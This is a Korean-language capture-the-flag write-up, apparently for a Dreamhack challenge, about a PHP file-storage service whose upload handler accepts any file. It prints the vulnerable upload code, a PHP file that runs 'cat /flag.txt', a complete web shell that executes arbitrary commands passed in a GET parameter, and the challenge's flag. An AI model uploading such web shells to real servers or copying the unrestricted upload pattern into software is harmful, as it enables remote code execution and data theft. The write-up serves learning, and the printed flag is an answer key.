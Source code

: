 
문제는 **php로 작성된 파일 저장 서비스입니다. 파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 /flag.txt에 있습니다.** 입니다.

이번 문제 코드는 php 이다.

### index.php

**index.php** 는 `/` 부분에서 랜더링하는 일반적인 html 의 파일이다.  
아래에 있는 이미지가 index.php로 만든 사이트이다.  

<img src="6.jpg">  

코드는 풀이에 필요없어서 생략  

### list.php

코드는 php 부분만 입력

```php
    <?php
        $directory = './uploads/';
        $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
        foreach ($scanned_directory as $key => $value) {
            echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
        }
    ?> 
```

**list.php** 는 `/list` 부분에서 사용자가 **업로드한 파일**을 보여주는 곳이다.  

<img src="8.jpg">  

위의 이미지는 **test.php**를 만들어서 임시로 올린 상황이다.  
파란 글씨의 파일 이름을 누르면, 그 파일이 다운로드 된다.  

./uploads 에 있는 파일들을 찾는데, 제목에 `'..', '.', 'index.html'` 가 있다면, 제외하고, 나머지 파일은 list에 파일 이름을 출력하고, 그 이름에 파일이 있는 곳으로 하이퍼링크를 설정한다.

### upload.php

코드는 php 부분만 입력

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

이 코드는, 만약 **POST 방식이면(파일을 업로드 할 때)**, **./uploads** 에 업로드한 파일을 **저장**하고, **오류 여부**와 파일 저장을 성공했다면, **어디에 저장했는지** 알려준다.

# 첫 번째 풀이(system(cat /flag.txt) 사용)

여기서 저희는 /flag.txt 를 찾는 것이기 때문에, 그냥 **cat /flag.txt** 를 하면 됩니다.(/flag.txt -> 루트에 있는 flag.txt 파일)

```php
<?php
	system("cat /flag.txt");
?>
```

다음과 같이 코드를 작성하고,

<img src="4.jpg">  

파일을 업로드하고, list에서 그 파일에 들어가면

<img src="5.jpg">  

다음과 같이 flag 가 나온다.  

# 두 번째 풀이(드림핵 풀이, 웹 셸)

또 다른 방법으로 웹 셸을 업로드하는 방법이 있다.  

php로 웹 셸을 만드는 방법을 몰라서, 드림핵에서 제시한 예시 코드의 출처에서 웹 셸 코드를 가져왔다.  

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

다음과 같이 웹 셸을 업로드하고, 실행하면 웹 셸을 띄울 수 있다.  

<img src="9.jpg">  

아래의 이미지는 `ls -al`을 입력한 예시이다.  

<img src="10.jpg">  

그리고 여기서 `cat /flag.txt` 를 통해 flag를 얻을 수 있다.(아니면 `cd .. ; ls -al` 을 통해 상위 폴더에서 flag.txt를 찾을 수 있다. 실제 위치는 `cat ../../../../flag.txt` 이다.)  

<img src="11.jpg">  

따라서 답은 **DH{c29f44ea17b29d8b76001f32e8997bab}** 입니다.